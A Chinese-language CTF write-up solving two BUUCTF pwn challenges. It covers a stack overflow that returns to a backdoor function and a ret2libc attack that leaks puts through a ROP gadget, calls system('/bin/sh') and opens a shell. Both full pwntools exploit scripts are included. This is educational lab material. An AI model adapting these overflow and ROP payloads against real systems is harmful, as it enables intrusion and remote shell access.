


# jarvisoj_level0

栈溢出：



后门函数：



gdb调一下看看偏移即可。：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = remote('node4.buuoj.cn',29609)
backdoor_addr = 0x400596
#0x7fffffffdd80
#0x7fffffffde28
payload = b'a'*(0xe08-0xd80)+p64(backdoor_addr)
p.sendline(payload)
#p = gdb.debug(["./vuln",payload],"break validate_passwd")
p.interactive()

```

# ciscn_2019_c_1

目前为止遇到的第一题构造比较麻烦的题目，思路还算清晰，就是ret2libc。

另外libcsearch经常连不上，贼恶心。

给的是加密的操作，很明显的栈溢出：

```c
int encrypt()
{
  size_t v0; // rbx
  char s[48]; // [rsp+0h] [rbp-50h] BYREF
  __int16 v3; // [rsp+30h] [rbp-20h]

  memset(s, 0, sizeof(s));
  v3 = 0;
  puts("Input your Plaintext to be encrypted");
  gets(s);
  while ( 1 )
  {
    v0 = (unsigned int)x;
    if ( v0 >= strlen(s) )
      break;
    if ( s[x] <= 96 || s[x] > 122 )
    {
      if ( s[x] <= 64 || s[x] > 90 )
      {
        if ( s[x] > 47 && s[x] <= 57 )
          s[x] ^= 0xFu;
      }
      else
      {
        s[x] ^= 0xEu;
      }
    }
    else
    {
      s[x] ^= 0xDu;
    }
    ++x;
  }
  puts("Ciphertext");
  return puts(s);
}
```

不过会被一层加密，只需要python发payload的时候先异或一次即可。

然后就是ret2libc了，无system和`/bin/sh`，利用puts函数来泄露got。

需要注意的是程序是64位的，和32位的不同：

- x86
  - **函数参数**在**函数返回地址**的上方
- x64
  - System V AMD64 ABI (Linux、FreeBSD、macOS 等采用) 中前六个整型或指针参数依次保存在 **RDI, RSI, RDX, RCX, R8 和 R9 寄存器**中，如果还有更多的参数的话才会保存在栈上。
  - 内存地址不能大于 0x00007FFFFFFFFFFF，**6 个字节长度**，否则会抛出异常。

所以puts函数的参数需要放到rdi里面，拿ROPgadget拿链子：

```shell
feng@ubuntu: ~/Desktop/buu$ ROPgadget --binary ciscn_2019_c_1  --only 'pop|ret'|grep 'rdi'
0x0000000000400c83 : pop rdi ; ret

```

然后就是正常的ret2libc的攻击了。需要注意栈平衡，再加个ret即可。

最需要注意的就是，第二次的payload不需要再加密了，因为：

```c
    v0 = (unsigned int)x;
    if ( v0 >= strlen(s) )
      break;
```

这个`x`是在bss段的全局变量，第一次的时候已经满足了if，第二次攻击的时候就会直接break了。

EXP：

```python
from pwn import *
from LibcSearcher import *
def enc(s):
    res = ''
    for x in range(len(s)):
        t = s[x]
        if ( t<=96 or t > 122 ):
            if ( t <= 64 or t > 90 ):
                if ( t > 47 and t <= 57 ):
                    res += chr(t^0xF)
                else:
                    res += chr(t)
            else :
                res += chr(t^0xE)
        else:
            res += chr(t^0xD)
    return res

context(log_level="debug",os="linux")
p = remote('node4.buuoj.cn',28582)

elf = ELF('./buu/ciscn_2019_c_1')
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
start = elf.symbols['_start']
payload1 = b'a'*0x58+p64(0x400c83)+p64(puts_got)+p64(puts_plt)+p64(start)
payload1 = enc(payload1)
p.sendline('1')
p.sendline(payload1)
p.recvuntil('Ciphertext\n')
p.recvuntil('\n')
puts_addr = ((u64(p.recvuntil('\n',drop=True).ljust(8,b'\x00'))))
libc = LibcSearcher('puts',puts_addr)
base = puts_addr - libc.dump('puts')
system_addr = base + libc.dump("system")
binsh_addr = base + libc.dump("str_bin_sh")
payload2 = b'a'*0x58+p64(0x4006b9)+p64(0x400c83)+p64(binsh_addr)+p64(system_addr)
p.sendline('1')
p.sendline(payload2)
p.interactive()


```

